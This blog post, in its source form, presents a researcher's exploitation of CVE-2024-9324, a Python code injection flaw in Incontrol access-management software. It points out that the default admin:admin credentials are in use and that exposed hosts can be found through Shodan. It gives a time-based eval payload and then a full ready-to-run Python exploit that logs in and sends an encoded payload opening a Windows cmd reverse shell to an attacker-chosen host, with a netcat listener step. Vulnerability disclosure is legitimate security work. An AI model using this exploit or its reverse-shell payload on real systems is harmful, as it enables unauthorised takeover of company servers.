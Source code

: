 ```yaml
---
layout: post
title: "CVE-2024-9324 Exploitation Chain: Web User to NT AUTHORITY SYSTEM "
description: "Step by step exploitation for the Code Injection vulnerability that I found."
date:   2024-11-06 09:01:35 +0300
image:  '/images/713.jpg'
tags:   [exploitation, cve]
---
```


Hello everyone! Today I will present in detail the exploitation of a Code Injection vulnerability that I recently found in the Incontrol software, version 2.21.57.

#### What is Incontrol?
Incontrol is a software mainly used for access management in companies and is more present in internal networks, although it is possible to find exposed hosts on the internet through tools such as Shodan and Fofa.

### Proof of Concept
To exploit this vulnerability, it is necessary to have a user with permission to generate reports. In addition, the software uses, by default, administrator credentials such as "admin:admin", which makes it easier to identify hosts configured with these default credentials.

![]({{site.baseurl}}/images/image.png)

With a successful login to the application, when navigating through the menu and accessing the "Event Reports" option, it is possible to capture the vulnerable request when trying to generate a PDF report.

![]({{site.baseurl}}/images/image2.png)

![]({{site.baseurl}}/images/image3.png)

Using a payload that executes Python code to perform a 10-second time sleep, we observed that the application responded as expected, returning the response in approximately 11 seconds.

{% highlight py %}
eval(compile('for x in range(1):\n import time\n time.sleep(10)','a','single'))
{% endhighlight %}

![]({{site.baseurl}}/images/image4.png)

![]({{site.baseurl}}/images/image5.png)


### Exploit
To make the exploit easier, I developed an exploit in Python that automates the entire process and allows you to obtain a reverse shell.


{% highlight py %}

#!/usr/bin/python3

import argparse
import requests
import warnings
warnings.filterwarnings("ignore")


proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

def login(target, user, password):
    burp0_url = target + ":4441/v1/auth/"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/json", "Origin": f"{target}:4445", "Referer": f"{target}:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Priority": "u=0", "Te": "trailers", "Connection": "keep-alive"}
    burp0_json={"password": f"{user}", "username": f"{password}"}
    response = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
    # Verifica se a resposta foi bem-sucedida
    if response.status_code == 200:
        # Obtém o token do JSON da resposta
        token = response.json().get("token")
        if token:
            return token
        else:
            print("[X] - Token Extraction Error!")
            return None
    else:
        print(f"[X] - Login Failed: {response.status_code}")
        return None
        
def exploit(target, token, lhost, lport):
    burp0_url = target + f":4441/v1/evento/relatorio?page=1&limit=10000&fields=eval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20os%2csocket%2csubprocess%2cthreading%5cn%20def%20s2p(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20data%20%3d%20s.recv(1024)%5cn%20%20%20%20%20%20%20%20if%20len(data)%20%3e%200%3a%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.write(data)%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.flush()%5cn%20def%20p2s(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20s.send(p.stdout.read(1))%5cn%20s%20%3d%20socket.socket(socket.AF_INET%2c%20socket.SOCK_STREAM)%5cn%20s.connect((%22{lhost}%22%2c{lport}))%5cn%20p%20%3d%20subprocess.Popen(%5b%22cmd%22%5d%2c%20stdout%3dsubprocess.PIPE%2c%20stderr%3dsubprocess.STDOUT%2c%20stdin%3dsubprocess.PIPE)%5cn%20s2p_thread%20%3d%20threading.Thread(target%3ds2p%2c%20args%3d%5bs%2c%20p%5d)%5cn%20s2p_thread.daemon%20%3d%20True%5cn%20s2p_thread.start()%5cn%20p2s_thread%20%3d%20threading.Thread(target%3dp2s%2c%20args%3d%5bs%2c%20p%5d)%5cn%20p2s_thread.daemon%20%3d%20True%5cn%20p2s_thread.start()%5cn%20try%3a%5cn%20%20%20%20p.wait()%5cn%20except%20KeyboardInterrupt%3a%5cn%20%20%20%20s.close()','a','single'))"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Authorization": f"JWT {token}", "Origin": "https://localhost:4445", "Referer": "https://localhost:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers", "Connection": "keep-alive"}
    response = requests.get(burp0_url, headers=burp0_headers, verify=False)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-lh', '--lhost', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--lport', help='Listening port for reverse shell', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-p', '--password', help='Password value to set', required=True)
    args = parser.parse_args()
    print("[!] Running the exploit for CVE-2024-9324 [!]")
    print("[!] You need to run nc -nlvp manually [!]")
    print("[!] Usage example: python3 exploit.py --target https://TARGET -lh LHOST -lp 8080 -u admin -p admin [!]")

    print("[+] Logging in... [+]")
    token = login(args.target, args.username, args.password)
    
    print("[+] Sending shell! [+]")

    exploit(args.target, token, args.lhost, args.lport)

if __name__ == '__main__':
    main()
{% endhighlight %}

![]({{site.baseurl}}/images/image6.png)


![]({{site.baseurl}}/images/image7.png)

That's it for today guys, I hope you enjoyed this Python Code Injection vulnerability and don't forget, keep hacking.